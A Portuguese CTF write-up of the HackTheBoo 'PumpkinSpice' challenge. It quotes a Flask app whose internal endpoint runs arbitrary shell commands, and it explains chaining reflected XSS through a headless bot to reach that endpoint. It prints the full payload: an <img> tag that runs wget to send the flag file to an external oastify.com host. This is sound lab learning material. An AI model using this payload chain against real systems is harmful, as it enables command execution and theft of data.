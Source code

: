 ```yaml
---
description: >-
  Chall do HackTheBoo (evento de Halloween do HackTheBox). Desafio resolvido em
  23/10.
---
```


# PumpkinSpice

Após baixar o arquivo .zip contendo o código da aplicação, acessei ela através do browser. Dentro da aplicação, encontrei apenas um input cuja finalidade não estava clara. Então, comecei a fazer _code review_ para entender melhor como a aplicação funcionava.

<figure><img src=".gitbook/assets/Untitled (1).png" alt=""><figcaption><p>Página principal</p></figcaption></figure>

```python
addresses = []

def start_bot():
    from selenium import webdriver
    from selenium.webdriver.chrome.options import Options
    from selenium.webdriver.chrome.service import Service
    from selenium.webdriver.support.ui import WebDriverWait

    host, port = "localhost", 1337
    HOST = f"http://{host}:{port}"

    options = Options()

    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--disable-infobars")
    options.add_argument("--disable-background-networking")
    options.add_argument("--disable-default-apps")
    options.add_argument("--disable-extensions")
    options.add_argument("--disable-gpu")
    options.add_argument("--disable-sync")
    options.add_argument("--disable-translate")
    options.add_argument("--hide-scrollbars")
    options.add_argument("--metrics-recording-only")
    options.add_argument("--mute-audio")
    options.add_argument("--no-first-run")
    options.add_argument("--dns-prefetch-disable")
    options.add_argument("--safebrowsing-disable-auto-update")
    options.add_argument("--media-cache-size=1")
    options.add_argument("--disk-cache-size=1")
    options.add_argument("--user-agent=HTB/1.0")

    service = Service(executable_path="/usr/bin/chromedriver")
    browser = webdriver.Chrome(service=service, options=options)

    browser.get(f"{HOST}/addresses")
    time.sleep(5)
    browser.quit()

@app.route("/add/address", methods=["POST"])
def add_address():
    address = request.form.get("address")
    
    if not address:
        return render_template("index.html", message="No address provi

    addresses.append(address)
    Thread(target=start_bot,).start()
    return render_template("index.html", message="Address registered")

@app.route("/api/stats", methods=["GET"])
def stats():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    command = request.args.get("command")
    if not command:
        return render_template("index.html", message="No command provided")

    results = subprocess.check_output(command, shell=True, universal_newlines=True)
    return results

```

Analisando o código, ficou evidente o que precisava ser feito. A única rota acessível era o _**`/add/address`**_, todas as outras rotas só podiam ser acessadas por hosts internos. O input que estava na página principal permitia adicionar valores ao _array **`addresses`**_, e assim que esse valor era incrementado, havia um _bot_ que acessava outro _endpoint_ da API para listar todos esses valores através de uma página HTML.

{% code title="payload utilizado" %}
```jsx
<img src="http://127.0.0.1:1337/api/stats?command=wget http://idmf57c856aj9xo3rvteqhjdkzyq4hsjg8.oastify.com/$(cat /flag*)">
```
{% endcode %}

Sabendo que input estava sendo refletido em uma página HTML, testei alguns _payloads_ de XSS que tiveram sucesso. Em seguida, utilizei o _bot_ para acessar o _endpoint_ que estava restrito a acesso interno através da _tag **`<img>`**_, e assim fazendo o _bot_ executar o comando desejado, uma vez que esse _endpoint_ permitia a execução de comandos de forma arbitrária.

<figure><img src=".gitbook/assets/Untitled 1 (1).png" alt=""><figcaption><p>Recebendo flag após o envio do payload final</p></figcaption></figure>
